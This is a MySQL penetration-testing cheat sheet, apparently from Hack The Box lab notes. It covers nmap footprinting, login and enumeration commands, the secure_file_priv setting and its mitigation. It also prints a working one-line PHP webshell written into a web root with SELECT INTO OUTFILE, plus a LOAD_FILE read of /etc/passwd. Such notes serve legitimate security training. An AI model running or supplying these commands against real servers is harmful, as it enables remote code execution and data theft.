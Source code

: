 ## MYSQL
--------------

## mysql


### webshell + file write
```shell-session
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
#### MySQL - Secure File Privileges
```shell-session
mysql> show variables like "secure_file_priv";
```

### read local files
```shell-session
mysql> select LOAD_FILE("/etc/passwd");
```


default port `3306`
can be made in the server configuration. The main options that are security-relevant are:
### Setup mysql and play around:
https://dev.mysql.com/doc/refman/8.0/en/general-security-issues.html

| **Settings**       | **Description**                                                                                              |
| ------------------ | ------------------------------------------------------------------------------------------------------------ |
| `user`             | Sets which user the MySQL service will run as.                                                               |
| `password`         | Sets the password for the MySQL user.                                                                        |
| `admin_address`    | The IP address on which to listen for TCP/IP connections on the administrative network interface.            |
| `debug`            | This variable indicates the current debugging settings                                                       |
| `sql_warnings`     | This variable controls whether single-row INSERT statements produce an information string if warnings occur. |
| `secure_file_priv` | This variable is used to limit the effect of data import and export operations.                              |
The settings `user`, `password`, and `admin_address` are security-relevant because the entries are made in plain text. Often, the rights for the configuration file of the MySQL server are not assigned correctly. 
If we get another way to read files or even a shell, we can see the file and the username and password for the MySQL server. 
Suppose there are no other security measures to prevent unauthorized access. In that case, the entire database and all the existing customers' information, email addresses, passwords, and personal data can be viewed and even edited.

The `debug` and `sql_warnings` settings provide verbose information output in case of errors, . This information often contains sensitive content, These error messages are often displayed directly on web applications. Accordingly, the SQL injections could be manipulated even to have the MySQL server execute system commands.

 **Foot Printing MYSQL**
-	nmap
```shell-session
sudo nmap 10.129.245.228 -sV -sC -p3306 --script mysql*
```

 **Interacting with the MySQL Server**
-	login
```
$ mysql -u root -h 10.129.245.228 -p 'pw'

```
commands"

| **Command**                                          | **Description**                                                                                       |
| ---------------------------------------------------- | ----------------------------------------------------------------------------------------------------- |
| `mysql -u <user> -p<password> -h <IP address>`       | Connect to the MySQL server. There should **not** be a space between the '-p' flag, and the password. |
| `show databases;`                                    | Show all databases.                                                                                   |
| `use <database>;`                                    | Select one of the existing databases.                                                                 |
| `show tables;`                                       | Show all available tables in the selected database.                                                   |
| `show columns from <table>;`                         | Show all columns in the selected database.                                                            |
| `select * from <table>;`                             | Show everything in the desired table.                                                                 |
| `select * from <table> where <column> = "<string>";` |                                                                                                       |

`MySQL` default system schemas/databases:

- `mysql` - is the system database that contains tables that store information required by the MySQL server
- `information_schema` - provides access to database metadata
- `performance_schema` - is a feature for monitoring MySQL Server execution at a low level
- `sys` - a set of objects that helps DBAs and developers interpret data collected by the Performance Schema
# 

```shell-session
mysql> SHOW DATABASES;

+--------------------+
| Database           |
+--------------------+
| information_schema |
| htbusers           |
+--------------------+
2 rows in set (0.00 sec)
```
### SELECT DB

```shell-session
USE htbusers;
```

#### Show Tables

```shell-session
mysql> SHOW TABLES;
```

## mysql RCE

### writing files and webshells

`MySQL` does not have a stored procedure like `xp_cmdshell`, but we can achieve command execution if we write to a location in the file system that can execute our commands. For example, suppose `MySQL` operates on a PHP-based web server or other programming languages like ASP.NET. If we have the appropriate privileges, we can attempt to write a file using [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) in the webserver directory. Then we can browse to the location where the file is and execute our commands.

```shell-session
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

Query OK, 1 row affected (0.001 sec)
```

## Mitigation configuration (secure_file_priv)
In `MySQL`, a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.

`secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.
In the following example, we can see the `secure_file_priv` variable is empty, which means we can read and write data using `MySQL`:



```shell-session
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
```

 Read Local Files in MySQL
 
by default a `MySQL` installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, we can read files using the following methods:

`SHOW VARIABLES LIKE 'local_infile';`

```shell-session
mysql> select LOAD_FILE("/etc/passwd");
```

`mysql --local-infile=1 -u youruser -p`
